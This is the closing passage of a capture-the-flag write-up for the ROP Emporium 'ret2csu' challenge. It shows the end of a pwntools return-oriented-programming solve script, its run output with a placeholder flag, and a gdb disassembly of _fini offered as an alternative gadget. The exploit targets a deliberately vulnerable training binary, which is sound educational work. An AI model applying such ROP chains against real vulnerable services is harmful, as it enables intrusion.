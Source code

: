 ```python
        0,
        pop + 0x9,
        arg_1,
        ret2win,
],word_size=64)

p.sendline(payload)

p.interactive()
```

let's run it!

```
$ python solve.py
[+] Starting local process './ret2csu': pid 2083
[*] running in new terminal: ['/usr/bin/gdb', '-q', './ret2csu', '2083', '-x', '/tmp/pwnb34fq9vj.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
ret2csu by ROP Emporium
x86_64

Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.

> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2csu' stopped with exit code 0 (pid 2083)
[*] Got EOF while reading in interactive
```

andddddddd it's done! nicesu nicesu! 

we can also use `_fini` too since it's basically doing nothing
```
gef➤  disas _fini
Dump of assembler code for function _fini:
   0x00000000004006b4 <+0>:     sub    rsp,0x8
   0x00000000004006b8 <+4>:     add    rsp,0x8
   0x00000000004006bc <+8>:     ret
```
either way is fine, we since we pwned it anyway haha.

alright!, we pwned all of ROP Emporium challenges, if you stick around
until this point, thank you so much, i hope you had fun doing these challenges,
like i did. see you next time!

